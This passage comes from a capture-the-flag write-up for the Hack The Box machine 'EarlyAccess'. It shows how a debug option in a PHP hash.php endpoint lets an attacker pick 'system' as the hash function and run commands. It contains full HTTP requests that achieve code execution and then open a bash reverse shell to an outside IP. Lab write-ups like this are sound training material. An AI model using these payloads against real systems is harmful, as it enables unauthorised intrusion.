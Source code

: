 ```php
}
catch(Exception $ex)
{
    if($ex->getMessage() !== "")
        $_SESSION['error'] = htmlentities($ex->getMessage());

    header('Location: /home.php');
    return;
}
?>
```

Finally there is some exception handling that shows errors on the home-page.

In order to exploit hash.php and get RCE, we have to supply `debug`, set the hash_function to `system`, `shell_exec`, `passthru` or similar and use `password` to execute commands.

#### Exploiting hash.php

Using following request, we can get RCE on the host.

```http
POST /actions/hash.php HTTP/1.1
Host: dev.earlyaccess.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://dev.earlyaccess.htb
Connection: close
Referer: http://dev.earlyaccess.htb/home.php?tool=hashing
Cookie: PHPSESSID=53608c1856dd241664812c4f3bc74bcc

action=hash&password=id&hash_function=system&debug=true
```

We get following result:

![RCE on dev](/assets/htb/EarlyAccess/http/dev-hashing-rce.png)

We successfully get RCE on the host as `www-data`. We can now use the RCE to get a reverse-shell.

```http
POST /actions/hash.php HTTP/1.1
Host: dev.earlyaccess.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: http://dev.earlyaccess.htb
Connection: close
Referer: http://dev.earlyaccess.htb/home.php?tool=hashing
Cookie: PHPSESSID=53608c1856dd241664812c4f3bc74bcc

action=hash&password=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.10/443+0>%261'&hash_function=system&debug=true
```
